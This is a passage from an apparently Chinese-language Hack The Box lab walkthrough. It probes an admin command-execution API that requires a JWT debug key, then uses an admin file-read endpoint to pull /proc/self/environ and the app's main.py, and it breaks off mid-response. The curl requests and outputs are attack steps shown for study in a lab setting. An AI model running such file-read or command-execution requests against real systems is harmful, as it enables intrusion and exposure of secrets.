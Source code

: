 ## `/api/v1/admin/exec/{command}` 接口

尝试执行 `id` 命令

```bash
curl -X 'GET' \
  'http://10.10.11.161/api/v1/admin/exec/id' \
  -H 'accept: application/json'
```

```json
{
  "detail": "Debug key missing from JWT"
}
```

疑似需要在 `JWT` 中有 `Debug` 字段

而修改 `JWT` 的内容需要获得 `JWT` 的签名密钥

## 利用 `/admin/file` 接口

读取当前进程环境变量信息

```bash
...
  -d '{"file": "/proc/self/environ"}'
...
```

```json
{
  "file": "APP_MODULE=app.main:app\u0000PWD=/home/htb/uhc\u0000LOGNAME=htb\u0000PORT=80\u0000HOME=/home/htb\u0000LANG=C.UTF-8\u0000VIRTUAL_ENV=/home/htb/uhc/.venv\u0000INVOCATION_ID=140ea6d97fd3499e966c7281c8b283b2\u0000HOST=0.0.0.0\u0000USER=htb\u0000SHLVL=0\u0000PS1=(.venv) \u0000JOURNAL_STREAM=9:17837\u0000PATH=/home/htb/uhc/.venv/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\u0000OLDPWD=/\u0000"
}
```

可知当前运行目录是 `/home/htb/uhc`

尝试读取可能的 python 文件，发现 `app` 目录下有 `main.py`

```bash
...
  -d '{"file": "/home/htb/uhc/app/main.py"}'
...
```

```json
{
```